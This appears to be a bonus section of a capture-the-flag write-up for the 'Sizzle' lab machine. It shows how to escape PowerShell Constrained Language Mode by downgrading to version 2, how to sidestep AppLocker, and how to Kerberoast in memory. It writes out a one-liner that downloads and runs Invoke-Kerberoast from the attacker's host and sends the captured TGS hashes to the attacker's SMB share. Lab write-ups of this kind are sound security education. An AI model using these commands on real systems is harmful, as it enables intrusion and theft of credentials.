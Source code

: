 ## Bonus: PowerShell Constrained Language Mode, Bypassing it along with Applocker and Kerberoasting without touching disk. All in a PowerShell one-liner :D
After I initially got the WinRM shell, It kept asking for my PEM pass phrase after each command.

I wanted to get a `nishang` shell but couldn't do the `IEX` command (`Invoke-Expression`). This was because of **PowerShell's Contrained Language Mode**.

![constrained-language-mode](/assets/Sizzle/constrained-language-mode.jpg)

**Contrained Language Mode** disables a few PowerShell commands that can be dangerous.

*Fortunately,* it can be bypassed by *downgrading* to **PowerShell** version 2.

We're going to be abusing the `Start-Process` command to start a `powershell.exe` with `-v 2` and the command `-c IEX(New-Object Net.webClient).downloadString('http://10.10.16.7/Invoke-Kerberoast.ps1')` as arguments.

This is to:
1. Start a **PowerShell** version 2 process without locking the terminal.
1. Import the `Invoke-Kerberoast` code into memory.
2. Execute the command `Invoke-Kerberoast -OutputFormat john | % { $_.Hash } | Out-File -Encoding ASCII \\10.10.16.7\share\roasted.txt`.
3. Output the TGS hash of the `mrlky` user to our SMB share.

we will use the `-Credential` parameter with `Start-Process` to create the Network Authentication needed for the attack to succeed.

*That way,* we've hit multiple birds with one stone.
1. We never had to deal with **Applocker**
2. Dodged **Contrained Language Mode**
3. Created the needed **Network Logon**
4. **Kerberoasted** *without ever touching the victim's disk*

![bonus-kill](/assets/Sizzle/bonus-kill.jpg)
